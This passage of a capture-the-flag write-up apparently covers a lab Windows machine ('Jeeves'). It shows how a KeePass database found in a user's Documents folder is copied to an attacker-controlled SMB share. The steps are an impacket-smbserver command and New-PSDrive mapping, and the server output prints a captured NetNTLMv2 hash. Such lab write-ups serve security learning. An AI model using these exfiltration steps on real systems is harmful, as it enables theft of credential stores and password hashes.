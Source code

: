 ### Method 2 (The Easy Way)

After finding the user flag, we can take a look at other files present in the current user's directory to see if something interesting can be found.

It can be seen that there is a file named `CEH.kdbx` in the `Documents` directory.

``` 
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx
```

This is probably is a KeyPass database file, which can be cracked using `john`. But for that we need to move this file to our local system and one way of doing that is starting an FTP server on our machine to which we can connect from the target machine and upload the file there.

We can start the server on our machine using `impacket-smbserver hacker .` and then on the target machine we can run the command `New-PSDrive -Name "hacker" -PSProvider "FileSystem" -Root "\\10.10.15.61\hacker"`.

On the attacker server side the output would look something like
```
$ impacket-smbserver temp .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.228.112,49678)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:3521633c32f6f91a922aeab67c16392a:0101000000000000005ab4dc819dda01ac509b19c1c77ee000000000010010004700630047007300780051006b004600030010004700630047007300780051006b0046000200100042005a004a0078006a005600780042000400100042005a004a0078006a0056007800420007000800005ab4dc819dda010600040002000000080030003000000000000000000000000030000021dbb152481f10aee54604fad7d75e5038ea7b83070adf42f7d00abcd3f0650f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310035002e0036003100000000000000000000000000
```

Once the drive is attached, the file can be easily copied.

```
PS C:\Users\kohsuke> cd hacker:
PS hacker:\> cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
